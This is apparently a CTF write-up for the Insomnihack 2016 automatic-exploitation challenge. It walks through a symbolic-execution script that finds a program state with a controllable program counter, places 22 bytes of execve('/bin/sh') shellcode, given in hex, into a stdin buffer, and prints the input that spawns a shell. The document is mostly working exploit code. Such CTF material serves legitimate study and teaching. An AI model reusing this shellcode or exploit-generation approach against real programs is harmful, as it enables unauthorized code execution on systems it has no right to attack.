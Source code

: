 # Insomnihack 2016 - AEG

In this challenge we have to create an automated exploitation script.
We set the keep_unconstrained flag, that allows us to find states where we have control of the program counter, and set extra options that allow us to automatically get the address of our buffer.
We disable verbose step so that we don't get spammed with step info like registers etc.
```
load 'demo_bin'
keep_unconstrained
set_entry_state add_options=['REVERSE_MEMORY_NAME_MAP', 'TRACK_ACTION_HISTORY']
verbose_step False
```
## Find a vulnerable state

Here we search our exploitable state, by checking unconstrained states for symbolic program counters.
Once we have a state where we have a controlled program counter we move over to the exploitation step.
```
def fully_symbolic(state):
    fully_sym = True
    for s in (chop_symbol &reg.pc):
        if False == (is_symbolic s):
            fully_sym = False
    return fully_sym
            
exploitable_state_index = -1
while exploitable_state_index < 0:
    println exploitable_state_index
    step
    unconst = len (list_states unconstrained)
    for i in range(unconst):
        print "Checking the unconstrained states to see if they give control over the pc.\nStates to check:  "
        println (len (list_states unconstrained))
        select_state i unconstrained
        if fully_symbolic &state:
            println "Vulnerable state found, continue to exploit..."
            exploitable_state_index = i
            break
        else:
            move_state_to_stash i 'unconstrained' 'pruned'
```

# Exploiting the vulnerability

Now all we have left to do is set our shellcode in the buffer and make the PC point to that shellcode.
To do this we get the addresses our input occupies, then we check for a place where we have space for the shellcode and return that address.
```
def check_payload_fit(addr, addresses, length):
    result = True
    for i in range(length):
        to_test = addr + i
        if to_test in addresses:
            result = True
        else:
            result = False
            break
    return result
        


def get_controled_buffer_addr(shellcode_length):
    buffer_name = ""
    for var in get_stdin_variables:
        for n in &vars.var[0].variables:
            buffer_name = n
    target_address = -1
    buffer_addresses = get_addr_for_name buffer_name
    for addr in buffer_addresses:
        if (check_payload_fit addr buffer_addresses shellcode_length):
            target_address = addr
            break
    return target_address

shell_code = 0x6a68682f2f2f73682f62696e89e331c96a0b5899cd80
control_buffer_addr = get_controled_buffer_addr 22
```

Finally, we have to add two constraints, one that sets the shellcode in our buffer and one that sets the PC to point to the shellcode
We check if we have found a valid control buffer address and if the required constraints are satisfiable.
If they are satisfiable we add them and print the exploit string in hex.
```
if satisfiable &reg.pc == control_buffer_addr && &mem[control_buffer_addr->22] == shell_code && control_buffer_addr > 0:
    add_constraint &mem[control_buffer_addr->22] == shell_code
    add_constraint &reg.pc == control_buffer_addr
    to_hex (dump_stdstream stdin)
    print "Required input to spawn a /bin/bash shell: "
    println (dump_stdstream stdin)
else:
    println "Could not place the shellcode in the buffer and set the PC to the buffer address"

```